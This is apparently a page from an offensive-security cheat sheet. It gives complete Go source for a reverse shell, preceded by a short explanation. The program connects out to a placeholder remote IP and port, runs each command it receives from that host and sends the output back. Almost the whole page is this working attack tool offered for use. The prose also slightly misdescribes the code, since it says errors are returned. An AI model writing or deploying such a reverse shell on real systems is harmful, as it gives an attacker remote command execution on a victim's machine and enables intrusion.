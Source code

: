 # Golang

{% tabs %}
{% tab title="Golang Reverse shell" %}
The code above creates a socket connection to a remote host at the specified IP address and port number. It then enters a loop where it waits for a command to be sent from the remote host. Once a command is received, it is executed using the `exec.Command()` method, and the output and error messages are sent back to the remote host.

```
package main

import (
	"bufio"       // for reading from the socket
	"net"         // for creating a socket connection
	"os/exec"     // for running commands
	"strings"     // for trimming whitespace from input
	"strconv"     // for converting the port number to a string
)

const (
	REMOTE_HOST = "10.X.X.X" // the IP address of the remote host
	REMOTE_PORT = 4231       // the port to connect to on the remote host
)

func main() {
	// Connect to the remote host
	conn, err := net.Dial("tcp", REMOTE_HOST+":"+strconv.Itoa(REMOTE_PORT))
	if err != nil {
		// If there was an error, panic
		panic(err)
	}
	// Defer closing the connection until the function returns
	defer conn.Close()

	println("Connected to remote host.")

	for {
		println("Awaiting command...")

		// Read a message from the remote host
		message, err := bufio.NewReader(conn).ReadString('\n')
		if err != nil {
			// If there was an error, panic
			panic(err)
		}
		// Trim leading and trailing whitespace from the message
		message = strings.TrimSpace(message)

		println("Running command:", message)
		// Run the command
		cmd := exec.Command(message)
		output, err := cmd.CombinedOutput()
		if err != nil {
			println("Error running command:", err)
		}

		println("Sending response...")
		// Send the output and error messages back to the remote host
		conn.Write(output)
	}
}

```
{% endtab %}
{% endtabs %}
